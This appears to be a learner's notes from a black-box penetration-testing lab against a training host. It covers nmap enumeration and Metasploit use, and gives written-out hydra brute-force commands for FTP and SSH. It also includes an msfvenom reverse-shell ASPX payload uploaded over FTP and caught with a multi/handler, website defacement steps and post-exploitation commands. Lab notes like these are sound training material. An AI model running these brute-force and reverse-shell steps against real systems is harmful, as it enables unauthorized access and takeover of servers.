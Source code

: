 
Black box  Penetration Test 

To do: 
- `cat /etc/hosts `
- target: demo.ine.local 
10.2.19.218 

21/tcp    open  ftp                  Microsoft ftpd
22/tcp    open  ssh                  OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http                 Microsoft IIS httpd 7.5
135/tcp   open  msrpc                Microsoft Windows RPC
139/tcp   open  netbios-ssn          Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds         Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql                MySQL 5.5.20-log
3389/tcp  open  tcpwrapped
4848/tcp  open  ssl/http             Oracle Glassfish Application Server
7676/tcp  open  java-message-service Java Message Service 301
8080/tcp  open  http                 Sun GlassFish Open Source Edition  4.0
8181/tcp  open  ssl/http             Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
9200/tcp  open  wap-wsp?
49152/tcp open  msrpc                Microsoft Windows RPC
49153/tcp open  msrpc                Microsoft Windows RPC
49154/tcp open  msrpc                Microsoft Windows RPC

##### 1. Port scanning & enumeration 

- `Ping` target to check if we can communicate with the target
- perform `nmap` scan on target
	- basic scan: `nmap -sV ip `
	- `nmap  -T4 -PA -sC -sV -p 1-10000 target_ip -oX nmap_results_10k`
	- `nmap  -T4 -PA -sC -sV -p 1-65535 target_ip -oX nmap_results_65k` 
	- check udp port `nmap -sU -sV ip `
- Find out what is running on the target:
	- inspect pages that can be visited via browser 
- try to connect with a service:
	- `nc -nv target_ip target_port `

Output file in xml format can be imported in msfconsole 
Import findings in msfconsole: 
- `service postgresql start && msfconsole`
- create `workspace  `
- `db_import /root/Desktop/file/filename` (import results)
- `hosts` 
- `services`
- Get the exact operating system
	- `search smb_version`
	- `use aux/scanner/smb/smb_version`
	- ` set rhosts taret ip `
	- run (command `hosts` to check operating system)

#### Targeting Microsoft ISS FTP 

- Microsoft IIS - FTP is part of it the Microsoft IIS solution 
	- Microsoft ftp an microsoft IIS means that ftp is used to allow  authenticated users do modify the webserver directory

Steps:
1. identify vulnerability detection in regards with ftp: 
	- first check if anonymous logging is possible 
	    look for scripts: ` ls -al /usr/share/nmap/scripts/ | grep ftp- `
	    use script in nmap: `nmap -sV -p  --script=ftp-anon `
	    username: anonymous, password (geen) 

2.  ftp bruteforce attack with hydra
	- `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt target_ip ftp `
	- check account: `hydra -l {username_youwanttofind}  -P /usr/share/wordlists/metasploit/unix_passwords.txt target_ip ftp ` or `hydra -l {username_youwanttofind}  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ftp `

3. use ftp ip port to connect to ftp server and use credentials found 

4. when you see an asp file you know the ftp client can TRY execute asp files 
	1. generate reverse shell with msfvenom 
		- `msfvenom -p windows/shell/reverse_tcp LHOST= your_ip LPORT= 1234 -f asp > shell.aspx `
	2. log back in into ftp server
		- put shell.aspx 
		- dir 

5. in different window start up multi/handler to receive the connection
	- `use multi/handler `
	- `set payload windows/shell/reverse_tcp `
	- in the browser: `ip/shell.aspx` 

if this did not work? 

pentester could try to deface the website: modify the webapplication or download client data - this is already something that should be reported. 
you could modify pages hosted 
get index.html
open the file in vim 
put index.html


#### Targeting OpenSSH 

Get the exact version of OpenSSH 

- `searchsploit OpenSSH version_number`
- burteforce: 
	- `hydra -l {username_youfound}  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ssh ` 
	- `hydra -l administrator  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ssh ` `
- ssh username@ip 
	- pwd - whoami - net localgroup - 
- msfconsole
	- search ssh_login 
	- use au/scanner/ssh/ssh_login 
	- upgrade shell 
	- windows cmd session in ssh : `bash` 
	- `net localgroup administrators `
	- `whoami /priv`
	- 

